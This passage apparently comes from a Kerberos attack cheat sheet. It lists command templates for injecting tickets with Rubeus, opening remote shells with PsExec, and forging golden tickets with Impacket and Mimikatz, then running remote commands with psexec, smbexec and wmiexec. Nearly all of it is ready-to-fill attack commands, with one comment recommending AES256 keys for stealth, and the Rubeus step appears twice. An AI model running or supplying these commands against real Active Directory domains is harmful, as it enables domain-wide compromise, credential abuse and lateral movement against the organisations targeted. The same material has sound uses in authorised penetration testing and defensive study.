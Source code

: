 Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Golden ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGT with NTLM
impacket-ticketer -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
impacket-ticketer -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
impacket-psexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-smbexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-wmiexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```
